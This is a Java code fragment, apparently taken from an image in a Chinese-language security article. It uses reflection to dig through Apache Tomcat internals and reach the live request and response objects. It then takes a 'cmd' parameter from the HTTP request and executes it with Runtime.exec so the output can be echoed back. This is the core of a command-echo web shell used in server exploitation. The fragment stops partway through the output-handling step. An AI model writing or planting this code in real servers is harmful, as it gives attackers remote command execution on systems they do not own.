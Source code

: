 ```java
            //获取ApplicationContext
            Field applicationContextField = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            applicationContextField.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(standardContext);

            //获取StandardService
            Field standardServiceField = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            standardServiceField.setAccessible(true);
            StandardService standardService = (StandardService) standardServiceField.get(applicationContext);

            //获取Connector
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectorsField.setAccessible(true);
            Connector[] connectors = (Connector[]) connectorsField.get(standardService);
            Connector connector = connectors[0];

            //获取Handler
            ProtocolHandler protocolHandler = connector.getProtocolHandler();
            Field handlerField = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredField("handler");
            handlerField.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler handler = (AbstractEndpoint.Handler) handlerField.get(protocolHandler);

            //获取内部类AbstractProtocol$ConnectionHandler的global属性
            Field globalHandler = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalHandler.setAccessible(true);
            RequestGroupInfo global = (RequestGroupInfo) globalHandler.get(handler);

            //获取processors
            Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processorsField.setAccessible(true);
            List<RequestInfo> requestInfoList = (List<RequestInfo>) processorsField.get(global);

            //获取request和response
            Field requestField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            requestField.setAccessible(true);
            for (RequestInfo requestInfo : requestInfoList){

                //获取org.apache.coyote.Request
                org.apache.coyote.Request request = (org.apache.coyote.Request) requestField.get(requestInfo);

                //通过org.apache.coyote.Request的Notes属性获取继承HttpServletRequest的org.apache.catalina.connector.Request
                org.apache.catalina.connector.Request http_request = (org.apache.catalina.connector.Request) request.getNote(1);
                org.apache.catalina.connector.Response http_response = http_request.getResponse();

                PrintWriter writer = http_response.getWriter();
                String cmd = http_request.getParameter("cmd");

                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                String result = scanner.hasNext()?scanner.next():"";
```